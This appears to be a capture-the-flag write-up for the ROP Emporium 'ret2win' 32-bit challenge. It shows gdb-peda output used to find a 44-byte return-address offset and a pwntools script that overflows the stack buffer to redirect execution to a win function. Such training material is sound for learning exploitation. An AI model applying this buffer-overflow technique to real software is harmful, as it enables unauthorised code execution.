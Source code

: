 # ret2win - 32bit

This challenge just involve a very simple overwritting of the return pointer to a function of our choice.

After looking inside the binary a function called `ret2win` that will print us our flag.

All we have to do is find the vulnerable buffer len and place the address of `ret2win` to exploit the binary.

Using `gdb` we can use the `pattern` functionality to find the buffer len:

```
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```

```
gdb-peda$ r
Starting program: /root/GitHub/ROP_Emporium/0x00_ret2win/32-bit/ret2win32 
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd3a0 ("'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAA")
EBX: 0x0 
ECX: 0xf7fad89c --> 0x0 
EDX: 0xffffd3a0 ("'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAA")
ESI: 0xf7fac000 --> 0x1d9d6c 
EDI: 0xf7fac000 --> 0x1d9d6c 
EBP: 0x30414161 ('aAA0')
ESP: 0xffffd3d0 --> 0xf7fe0041 (sub    DWORD PTR [edi],ecx)
EIP: 0x41464141 ('AAFA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41464141
[------------------------------------stack-------------------------------------]
0000| 0xffffd3d0 --> 0xf7fe0041 (sub    DWORD PTR [edi],ecx)
0004| 0xffffd3d4 --> 0xffffd3f0 --> 0x1 
0008| 0xffffd3d8 --> 0x0 
0012| 0xffffd3dc --> 0xf7decb41 (<__libc_start_main+241>:	add    esp,0x10)
0016| 0xffffd3e0 --> 0xf7fac000 --> 0x1d9d6c 
0020| 0xffffd3e4 --> 0xf7fac000 --> 0x1d9d6c 
0024| 0xffffd3e8 --> 0x0 
0028| 0xffffd3ec --> 0xf7decb41 (<__libc_start_main+241>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414641 in ?? ()
gdb-peda$
```

Then we use the value at the bottom (`0x41414641 in ?? ()`) in with pattern to find the value.

```
gdb-peda$ pattern offset 0x41414641
1094796865 found at offset: 44
```

Then finding the address of `ret2win` and adding to the end of the junk we pass in.

The gives us this exploit:

```python
import sys; sys.path.append("../..")
import shared_pwn
from pwn import *

BINARY_NAME = "ret2win32"
BUFFER_LEN = 44

io = process(f"./{BINARY_NAME}")

junk = b"\x90" * BUFFER_LEN

# Pointers
win_addr = p32(0x08048659)

# Payload creation
payload = b""
payload += junk
payload += win_addr

io.recvuntil("> ")
io.send(payload)
io.send("\n")
shared_pwn._recvall(io)
```

That prints us the flag!